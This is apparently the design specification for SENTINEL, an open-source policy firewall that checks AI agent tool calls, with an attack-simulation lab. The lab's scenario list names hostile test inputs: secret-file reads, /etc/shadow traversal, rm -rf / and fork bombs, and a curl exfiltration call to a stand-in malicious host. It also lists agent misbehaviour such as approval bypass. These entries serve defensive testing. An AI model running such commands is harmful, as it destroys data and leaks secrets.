

# SENTINEL Architecture & Design Specification

> **Tagline**: *Every AI action must earn permission.*

SENTINEL is an open-source AI Agent Firewall: a deterministic policy enforcement engine, developer SDK, CLI, interactive web console, and attack simulation lab.

---

## 1. High-Level Architecture Overview

```mermaid
flowchart TD
    subgraph Agent [AI Agent Runtime]
        LLM[LLM / Autonomous Agent]
        ToolReq[Tool Call Request: tool, op, resource, args]
    end

    subgraph SentinelCore [SENTINEL Firewall Boundary]
        Gate[Safe Tool Guard / Adapter]
        Validator[Schema & Path Normalizer]
        PolicyEngine[Deterministic Policy Engine]
        PolicyStore[Policy Pack: YAML/JSON Rules]
        ReceiptGen[Canonical Serialization & Hash Chainer]
        AuditDB[(SQLite Audit Store)]
    end

    subgraph SafeExec [Execution Layer]
        AuthorizedTool[Authorized Real or Virtual Tool]
    end

    subgraph LLMAssist [Advisory Layer (External)]
        BharatCode[BharatCode API: qwen-3.8-27b]
    end

    subgraph Management [Interfaces]
        CLI[Typer CLI: sentinel]
        Console[SENTINEL Web Console: Next.js]
    end

    LLM -->|Request Tool Call| ToolReq
    ToolReq -->|Intercepted by| Gate
    Gate -->|1. Validate Schema & Resolve Paths| Validator
    Validator -->|2. Evaluate Deterministic Rules| PolicyEngine
    PolicyStore -->|Active Policies| PolicyEngine
    PolicyEngine -->|3. Decision: ALLOW / DENY / APPROVE| Gate

    Gate -->|4a. IF ALLOWED: Execute| AuthorizedTool
    AuthorizedTool -->|Outcome & Output| Gate
    Gate -->|4b. IF DENIED: Block Tool Execution| Gate

    Gate -->|5. Record Receipt with Chained Hash| ReceiptGen
    ReceiptGen -->|6. Persist Immutable Event| AuditDB

    Management -->|Query Receipts, Run Lab, Edit Policies| SentinelCore
    Console -.->|Drafts policies with human approval| BharatCode
```

---

## 2. Core Principles & Boundaries

1. **Deterministic Enforcement Boundary**:
   - The decision to `ALLOW`, `DENY`, or `REQUIRE_APPROVAL` is 100% deterministic and evaluated locally in Python.
   - LLMs (including BharatCode) are strictly **advisory** (used for drafting policies, explaining findings). An LLM is NEVER in the critical enforcement loop making allow/deny decisions.

2. **Guaranteed Non-Execution on Deny / Pending Approval**:
   - The `SafeToolGuard` wraps tool functions. If the firewall evaluates to `DENY` or `REQUIRE_APPROVAL`, the tool function is NEVER invoked.

3. **Fail-Safe Default-Deny**:
   - If an action cannot be parsed, if a policy is invalid, or if no rule matches an action under strict mode, the firewall fails closed (`DENY` or `ERROR`). A broken policy never defaults to allow-all.

4. **Cryptographic Tamper-Evident Receipts**:
   - Each decision receipt includes canonical JSON serialization and a SHA-256 hash incorporating the previous receipt's hash (`receipt_hash = SHA256(canonical_json(receipt) + previous_hash)`).

5. **Defense in Depth**:
   - Path traversal prevention uses real path resolution (`os.path.realpath`, `pathlib.Path.resolve()`) and prefix containment tests, not just regex.
   - Commands are analyzed against parsed tokens and forbidden binaries/patterns, not naive substrings.
   - Network requests are matched against allowed domain names, ports, and IP CIDR blocks.

---

## 3. Decision Pipeline



---

## 4. Components

### 4.1 SENTINEL Core (`core/sentinel/`)
- **`models.py`**: Pydantic models for `Action`, `Rule`, `Policy`, `Decision`, `Receipt`, `ApprovalRequest`.
- **`engine.py`**: Deterministic evaluation logic with rule priorities, condition checkers, and fail-safe defaults.
- **`validator.py`**: Schema validation, rule syntax checking, regex safety validation, and collision detection.
- **`canonical.py`**: RFC-8785 compliant canonical JSON serialization and SHA-256 hash chaining.
- **`adapter.py`**: `SafeToolGuard` and function decorators protecting arbitrary callable tools.
- **`store.py`**: SQLite persistent storage for receipts, pending approvals, and active policies.
- **`llm_assistant.py`**: BharatCode API client (`https://bharatcode.ai/api/model/v1`, model `qwen-3.8-27b`) for natural-language policy authoring with strict schema validation.

### 4.2 SENTINEL Attack Lab (`core/sentinel/lab/`)
- Safe virtual environment for simulating agent attacks without real damage.
- Scenarios:
  1. Secret file read (`.env`, `id_rsa`, `credentials.json`)
  2. Path traversal attack (`../../../etc/shadow`)
  3. Out-of-workspace file writes (`/usr/local/bin`, `~/.bashrc`)
  4. Destructive shell commands (`rm -rf /`, `mkfs`, fork bombs)
  5. Unauthorized external network exfiltration (`curl http://malicious.evil.com/exfil`)
  6. Unknown/unregistered tool invocation in strict mode
  7. Malformed action payloads
  8. Human approval bypass attempt
  9. Broadening policy rule regression test
  10. Chained subagent tool delegation exploit

### 4.3 SENTINEL CLI (`core/sentinel/cli.py`)
Packaged via `pyproject.toml` as `sentinel`:
- `sentinel init`: Initialize a new SENTINEL workspace with default policies.
- `sentinel policy validate <path>`: Validate syntax and integrity of policy files.
- `sentinel policy test <path>`: Run embedded policy unit tests.
- `sentinel simulate`: Run safe attack lab simulations.
- `sentinel explain <decision-id>`: Retrieve and inspect decision receipts.
- `sentinel report`: Generate JSON or Markdown security audits.
- `sentinel version`: Print version and engine details.

### 4.4 SENTINEL Web Console (`console/`)
Next.js App Router with TypeScript strict mode and Tailwind CSS:
- **Dashboard**: Live metrics on blocked attacks, approvals, active policies, and recent audit stream.
- **Policy Studio**: Interactive policy editor, validation error linter, test runner, and BharatCode natural-language drafting assistant.
- **Attack Lab**: Interactive runner for the 10+ attack scenarios with instant pass/fail visualization and benchmark metrics.
- **Decision Explorer**: Paginated, filterable receipts with hash-chain integrity verification indicator and detail modal.
- **Docs & Quickstart**: SDK installation guides, policy specifications, CLI commands, and community links.
